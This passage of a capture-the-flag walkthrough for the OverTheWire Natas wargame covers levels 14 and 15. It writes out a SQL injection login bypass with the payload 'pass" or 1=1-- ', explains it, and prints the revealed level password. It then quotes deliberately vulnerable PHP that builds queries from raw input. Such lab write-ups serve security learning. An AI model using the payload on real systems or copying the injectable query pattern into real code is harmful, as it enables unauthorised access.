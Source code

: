username = can be anything

password = <code>pass" or 1=1-- </code>

To see why this works, look at the query now:

``` sql
Executing query: SELECT * from users where username="test" and password="pass" or 1=1-- "
```

By fixing the quotes we forced the database to evaluate an always true condition (1=1) and bypass the credentials check. The <code>-- </code> comments out the rest of the query which would otherwise break our injection. If you inject in the URL, don't forget that you need to URL encode the space (%20)

After the SQL injection, you will see this: <code>Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J</code>


### Level 15

{% img center /images/overthewire/natas/natas15.png 'natas15' 'natas 15' %}

This time you can check if a username exists or not. Let's look at the code:

``` php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?> 
```
